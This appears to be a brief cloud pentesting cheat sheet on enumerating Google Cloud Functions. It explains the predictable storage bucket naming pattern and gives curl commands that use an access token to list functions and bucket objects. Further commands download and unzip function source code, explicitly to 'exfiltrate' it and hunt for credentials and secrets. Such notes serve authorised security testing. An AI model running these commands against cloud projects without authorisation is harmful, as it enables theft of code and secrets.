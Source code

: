 # Google Cloud Functions GCF Enumeration

## Description

### Google Cloud Function code gets stored in a Google Cloud Storage bucket. Although we currently don't know the exact bucket name, it's worth noting that GCP uses a predictable naming format for Cloud Function buckets! The bucket naming format is gcf-sources-BUILD_NUMBER-REGION

## Format

#### 1) gcf-sources : A hardcoded value

#### 2) 212055223570 : The build number (included above with the buildName key)

#### 3) us-central1: The region

## Commands

 - curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://cloudfunctions.googleapis.com/v1/projects/PROJECT_NAME/locations/-/functions" (Enumerate functions via the GCP API)

### Set bucket name as a variable

 - BUCKET_NAME="gcf-sources-212055223570-us-central1" (Example)

### Make a request to list the bucket contents

 - curl -X GET -H "Authorization: Bearer $ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b/$BUCKET_NAME/o"

## We can now exfiltrate the source code and inspect it! Using Google's Storage API we download the zip file (example):

 - FILE_URL="https://www.googleapis.com/download/storage/v1/b/gcf-sources-212055223570-us-central1/o/function-1-8678e4fb-cf43-4d97-b877-6512729bdba4%2Fversion-2%2Ffunction-source.zip?generation=1708197786687849&alt=media"

# Download the file with GCP authentication

 - curl -o function-source.zip -H "Authorization: Bearer $ACCESS_TOKEN" "$FILE_URL"

 - unzip function-source.zip (Unzip the function file to inspect the source code for credentials/secrets/etc.)
